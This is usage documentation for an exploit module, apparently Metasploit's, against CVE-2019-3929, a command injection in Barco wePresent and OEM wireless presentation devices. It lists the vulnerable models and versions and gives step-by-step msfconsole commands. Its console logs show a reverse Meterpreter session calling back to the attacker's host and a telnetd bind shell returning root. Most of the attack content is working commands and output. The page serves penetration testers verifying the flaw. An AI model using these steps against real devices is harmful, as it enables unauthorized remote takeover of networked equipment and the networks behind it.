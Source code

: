 ## Vulnerable Application

This module exploits [CVE-2019-3929](https://nvd.nist.gov/vuln/detail/CVE-2019-3929). The vulnerability affects [WePresent](https://www.barco.com/en/page/wepresent) devices, as well as many OEM devices (listed below). The vulnerability is an unauthenticated remote command injection via HTTP POST request to the /cgi-bin/file_transfer.cgi endpoint. 

The following devices are known to be affected by this issue:

* Barco wePresent WiPG-1000P <= 2.3.0.10
* Barco wePresent WiPG-1600W <= 2.4.1.19
* Crestron AM-100 <= 1.6.0.2
* Crestron AM-101 <= 2.7.0.1
* Extron ShareLink 200/250 <= 2.0.3.4
* Teq AV IT WIPS710 <= 1.1.0.7
* InFocus LiteShow3 <= 1.0.16
* InFocus LiteShow4 <= 2.0.0.7
* Optoma WPS-Pro <= 1.0.0.5
* Blackbox HD WPS <= 1.0.0.5
* SHARP PN-L703WA <= 1.4.2.3

## Verification Steps

  1. Acquire one of the vulnerable devices.
  2. Start msfconsole
  3. Do: `use exploit/linux/http/wepresent_cmd_injection`
  4. Do: `set RHOSTS <device ip>`
  5. Do: `check`
  6. The module should indicate if the target is vulnerable or not.
  7. Do: `set LHOST <ip>`
  8. Do: run
  9. A meterpreter session should be started

## Options

  **RPort**
  The RPort is set to 443 by default. While these devices support HTTP over 80 and 443, the file_transfer.cgi endpoint is only available over 443.

  **Target**

  This module supports two targets: ARCH_CMD and ARCH_ARMLE. The default, ARM_ARMLE, will drop meterpreter on to the target. Whereas the ARCH_CMD target will start a busybox/telnetd bindshell. To switch to the ARCH_ARMLE target use the following command:
  
  ```
  set target 0
  ```

## Scenarios

### Tested against Crestron AM-100 1.6.0.2 

#### Meterpreter

```
msf5 > use exploit/linux/http/wepresent_cmd_injection 
msf5 exploit(linux/http/wepresent_cmd_injection) > set RHOSTS 10.12.70.246
RHOSTS => 10.12.70.246
msf5 exploit(linux/http/wepresent_cmd_injection) > set LHOST 10.12.70.238
LHOST => 10.12.70.238
msf5 exploit(linux/http/wepresent_cmd_injection) > check
[+] 10.12.70.246:443 - The target is vulnerable.
msf5 exploit(linux/http/wepresent_cmd_injection) > run

[*] Started reverse TCP handler on 10.12.70.238:4444 
[*] Command Stager progress -   9.95% done (127/1276 bytes)
[*] Command Stager progress -  19.98% done (255/1276 bytes)
[*] Command Stager progress -  29.94% done (382/1276 bytes)
[*] Command Stager progress -  39.97% done (510/1276 bytes)
[*] Command Stager progress -  50.00% done (638/1276 bytes)
[*] Command Stager progress -  59.95% done (765/1276 bytes)
[*] Command Stager progress -  69.75% done (890/1276 bytes)
[*] Command Stager progress -  79.62% done (1016/1276 bytes)
[*] Command Stager progress -  89.50% done (1142/1276 bytes)
[*] Sending stage (904600 bytes) to 10.12.70.246
[*] Command Stager progress - 100.08% done (1277/1276 bytes)
[*] Command Stager progress - 101.33% done (1293/1276 bytes)
[*] Meterpreter session 1 opened (10.12.70.238:4444 -> 10.12.70.246:40805) at 2020-01-09 05:53:34 -0500

meterpreter > shell
Process 31774 created.
Channel 1 created.
uname -a
Linux Crestron.AirMedia-1.1.wm8750 2.6.32.9-default #30 Wed Jul 12 13:56:45 CST 2017 armv6l GNU/Linux
```

#### Busybox/Telnetd Bind Shell

```
msf5 > use exploit/linux/http/wepresent_cmd_injection 
msf5 exploit(linux/http/wepresent_cmd_injection) > set target 0
target => 0
msf5 exploit(linux/http/wepresent_cmd_injection) > set payload cmd/unix/bind_busybox_telnetd 
payload => cmd/unix/bind_busybox_telnetd
msf5 exploit(linux/http/wepresent_cmd_injection) > set RHOSTS 10.12.70.246
RHOSTS => 10.12.70.246
msf5 exploit(linux/http/wepresent_cmd_injection) > set LHOST 10.12.70.238
LHOST => 10.12.70.238
msf5 exploit(linux/http/wepresent_cmd_injection) > check
[+] 10.12.70.246:443 - The target is vulnerable.
msf5 exploit(linux/http/wepresent_cmd_injection) > run

[*] Started bind TCP handler against 10.12.70.246:4444
[*] Command shell session 1 opened (10.12.70.238:41457 -> 10.12.70.246:4444) at 2020-01-09 05:56:36 -0500

whoami
whoami
root
~/boa/cgi-bin # uname -a
uname -a
Linux Crestron.AirMedia-1.1.wm8750 2.6.32.9-default #30 Wed Jul 12 13:56:45 CST 2017 armv6l GNU/Linux
~/boa/cgi-bin # 
```

